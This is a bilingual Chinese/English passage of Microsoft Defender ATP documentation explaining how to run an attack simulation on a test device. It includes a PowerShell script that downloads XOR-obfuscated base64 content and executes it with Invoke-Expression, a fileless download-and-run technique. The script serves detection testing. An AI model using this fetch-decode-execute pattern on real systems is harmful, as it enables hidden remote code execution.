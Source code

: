     <span data-ttu-id="31c60-150">d.</span><span class="sxs-lookup"><span data-stu-id="31c60-150">d.</span></span>  <span data-ttu-id="31c60-151">验证测试设备是否 [载入到 Microsoft Defender 高级威胁防护 (MDATP) ](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)。</span><span class="sxs-lookup"><span data-stu-id="31c60-151">Verify that the test device is [onboarded to Microsoft Defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="31c60-152">如果使用现有租户并实现设备组，请为测试设备创建专用设备组，并将其推送到配置 UX 中的顶层。</span><span class="sxs-lookup"><span data-stu-id="31c60-152">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>


## <a name="run-the-simulation"></a><span data-ttu-id="31c60-153">运行模拟</span><span class="sxs-lookup"><span data-stu-id="31c60-153">Run the simulation</span></span>

<span data-ttu-id="31c60-154">要运行攻击方案模拟，请执行以下操作：</span><span class="sxs-lookup"><span data-stu-id="31c60-154">To run the attack scenario simulation:</span></span>

1.  <span data-ttu-id="31c60-155">使用测试用户帐户登录到测试设备。</span><span class="sxs-lookup"><span data-stu-id="31c60-155">Log in to the test device with the test user account.</span></span>

2.  <span data-ttu-id="31c60-156">在测试设备上打开 Windows PowerShell 窗口。</span><span class="sxs-lookup"><span data-stu-id="31c60-156">Open a Windows PowerShell window on the test device.</span></span>

3.  <span data-ttu-id="31c60-157">复制以下模拟脚本：</span><span class="sxs-lookup"><span data-stu-id="31c60-157">Copy the following simulation script:</span></span>
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
= [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
-UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
>[!NOTE]
><span data-ttu-id="31c60-158">如果您在 web 浏览器上打开此文档，则在复制整个文本时可能会遇到问题，而不会丢失某些字符或引入额外的换行符。</span><span class="sxs-lookup"><span data-stu-id="31c60-158">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="31c60-159">下载此文档并在 Adobe Reader 中打开它。</span><span class="sxs-lookup"><span data-stu-id="31c60-159">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="31c60-160">在提示符处，粘贴并运行复制的脚本。</span><span class="sxs-lookup"><span data-stu-id="31c60-160">At the prompt, paste and run the copied script.</span></span>

>[!NOTE]
><span data-ttu-id="31c60-161">如果使用远程桌面协议 (RDP) 运行 PowerShell，请使用 RDP 客户端中的 "键入剪贴板文本" 命令，因为在使用 **CTRL + V** 热键或右键单击-paste 方法时，可能不起作用。</span><span class="sxs-lookup"><span data-stu-id="31c60-161">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span>  <span data-ttu-id="31c60-162">最新版本的 PowerShell 有时也不会接受该方法，您可能需要先在内存中复制到记事本，在虚拟机中复制它，然后将其粘贴到 PowerShell 中。</span><span class="sxs-lookup"><span data-stu-id="31c60-162">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

